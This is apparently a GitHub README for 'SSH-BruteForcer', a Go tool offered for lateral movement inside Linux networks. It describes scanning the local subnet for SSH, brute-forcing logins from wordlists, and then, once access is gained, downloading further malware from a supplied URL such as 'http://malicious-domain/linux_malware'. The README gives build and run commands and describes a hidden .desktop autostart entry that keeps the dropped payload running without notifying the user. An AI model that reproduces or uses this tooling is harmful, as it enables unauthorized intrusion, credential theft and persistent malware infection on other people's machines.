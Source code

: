 # SSH-BruteForcer

SSH-BruteForcer is a tool for searching for local hosts that have the common SSH port (22). It works by using Golang's net module in order to probe hosts in a network to see if they have SSH enabled, then brute forcing the password. 

This tool may come in handy when attempting to move laterally through a Linux based network.

This tool will:

1. Grab your local IP address in cidr notation.
2. Use an API to calculate the first assignable address & last assignable address. From this we grab all addresses in between.
3. Go through each local IP address & see which ones have port 22 (SSH) open. If it has this port open, we add it to a target list & once we've cycled through all the possible IP addresses, we return this list.
4. We read the input files (username & password files) then use Golang's SSH module to attempt to login to the list of target addresses with the credentials found in the files.
5. If a connection is successful, we print the credentials & what local IP address they worked for.

6. Once access is gained to the machine, it will download additional malware from the URL flag and create three directories: ~/.config, ~/.config/autostart, & ~/.config/services (which will store the malware). We then create a .desktop file and store it in ~/.config/autostart so that whenever the machine starts, the malware is ran. The additional malware is named userservice.

# Compilation & Usage

Compile:

* `GOOS=linux GOARCH=amd64 go build ssh.go` - for 64-bit architecture

* `GOOS=linux GOARCH=386 go build ssh.go` - for 32-bit architecture

* [More compilation examples here]((https://johnpili.com/golang-cross-platform-build-goos-and-goarch/))

Run:

* `chmod +x ssh`

* `./ssh -user user.txt -pass pass.txt -url http://malicious-domain/linux_malware`
  
  * `-user` - location of username file which contains list of usernames to try when brute forcing. One username per line.
  
  * `-pass` - location of password file which contains list of passwords to try when brute forcing. One password per line.
  
  * `-url` - URL of additional malware to drop once access is gained.

# Persistence

Once access is gained to any machines via SSH, this tool will download additional malware via cURL (the additional malware is downloaded from the URL passed to the `-url` flag when the executable is first ran), and create a .desktop file in $HOME/.config/autostart in order to execute our additional malware every time the machine starts.

The notable entries in the .desktop file are:

* `Exec=sh -c "$HOME/.config/services/userservice"` - the `sh -c` enables us to use the $HOME environment variable. The line simply tells the machine the location of the executable to run each time the machine boots.
* `StartupNotify=false` - this prevents the user from being notified that our executable is ran each time the machine boots.
* `Terminal=false` - this prevents a terminal from popping up each time our executable is ran when the machine boots.

# References

* [how to include an environment variable in the launcher? - Ask Ubuntu](https://askubuntu.com/questions/139195/how-to-include-an-environment-variable-in-the-launcher)

